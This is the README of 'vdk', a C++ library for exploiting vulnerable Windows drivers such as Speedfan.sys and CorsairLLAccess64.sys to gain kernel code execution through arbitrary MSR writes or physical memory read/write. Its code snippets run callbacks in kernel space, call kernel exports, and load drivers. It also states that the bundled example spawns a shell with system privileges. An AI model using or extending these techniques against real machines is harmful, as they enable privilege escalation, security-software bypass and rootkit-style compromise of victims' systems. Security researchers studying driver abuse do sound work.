 # vdk - vulnerable driver kit

*vdk* is a set of utilities used to help with exploitation of a vulnerable driver.
There are 2 main features of this library:
1. Getting kernel code execution via arbitrary msr write vulnerability
2. Getting kernel code execution via arbitrary physical memory read/write vulnerability

This project was written after I played with a few vulnerable drivers and was highly inspired by [msrexec](https://back.engineering/22/03/2021/) and [vdm](https://back.engineering/01/11/2020/) projects. I suggest you to read them first to understand what's going on.

Treat this project as a rewritten and improved version of those two.

There are 2 vulnerable drivers that you can use this library with but it should be easy to extend to use with any vulnerable driver. The corresponding code is in `example/src/llaccess.hpp` for `CorsairLLAccess64.sys` and `example/src/speedfan.hpp` for `Speedfan.sys`.
The example project shows every part of this library and uses speedfan driver to spawn shell with system privileges.

# How to use
cmkr example:
```
[fetch-content.vdk]
git = "https://github.com/archercreat/vdk.git"
...
link-libraries = ["vdk"]
```

cmake example:
```cmake
include(FetchContent)
FetchContent_Declare(vdk GIT_REPOSITORY https://github.com/archercreat/vdk.git)
FetchContent_MakeAvailable(vdk)

target_link_libraries(${PROJECT_NAME} PRIVATE vdk)
```

# Examples
Please refer to example folder for more examples.

Execute callback in kernel space by abusing abritrary msr write vulnerability:
```cpp
using dbgprint_t = void(*)(const char*, ...);

vdk::msr::exec([&](void* base, vdk::resolver_t resolver)
{
	auto print = reinterpret_cast<dbgprint_t>(resolver(base, "DbgPrint"));
	print("Hello from kernel! cr3: 0x%llx\n", __readcr3());
},
[&](uint32_t msr, uint64_t value)
{
    wrmsr_cmd cmd
    {
        .msr   = msr,
        .value = value
    };
    unsigned long temp, result;
    return DeviceIoControl(drv, ioctl_wrmsr, &cmd, sizeof(cmd), &result, sizeof(result), &temp, nullptr);
});
```

Execute any ntoskrnl exported function:
```cpp
void* sysproc{};
auto status = vdk::map::syscall<proclookup_t>(rdmem, wrmem, "PsLookupProcessByProcessId", 4, &sysproc);
fassert(NT_SUCCESS(status));
```

Iterate over physical regions:
```cpp
for (const auto& region : vdk::phy::regions())
{
	std::printf("Region: 0x%llx - 0x%llx\n", region.start, region.start + region.size);
}
```

Resolve exported function from pe module:
```cpp
std::vector<uint8_t> raw;
vdk::drv::read_file("C:\\Windows\\System32\\ntoskrnl.exe", raw);
auto rva = vdk::pe::get_export_rva(raw.data(), "RtlFindExportedRoutineByName");
```

Retrieve loaded modules list:
```cpp
for (const auto& module : vdk::drv::loaded())
{
	std::printf("0x%llx - 0x%llx %s\n", module.base, module.base + module.size, module.name.c_str());
}
```

Scan memory region for patterns (`0x00` - any character):
```cpp
std::vector<uint8_t> buf{ 0x69, 0x69, 0x69, 0x10 };
auto ptr = vdk::mem::find_first(buff.data(), buf.size(), "\x69\x69\x69\x00", 4);
fassert(ptr);
```

Load or unload drivers (service name will be the name of the file):
```cpp
auto path = std::filesystem::current_path().append("SpeedFan");
vdk::drv::load(path);
vdk::drv::unload(path);
```

# Notes
The msr exploitation is highly unstable and should be used as a last resort. There is a high chance that the thread will switch to another core where `cr4.smap` isn't disabled. If you really want to use msr exploit, build project in `Release` mode and replace cr4 value that is specific to your PC in `lib/vdk/msr.cpp` (I didn't bother getting cr4 value dynamically but might do it later).

# build
```
cmake -B build
cmake --build build --config Release
```

# Credits
All credits go to `_xeroxz` and his `msrexec` and `vdm` projects.

# TODO
HVCI support
Kernel CFG support
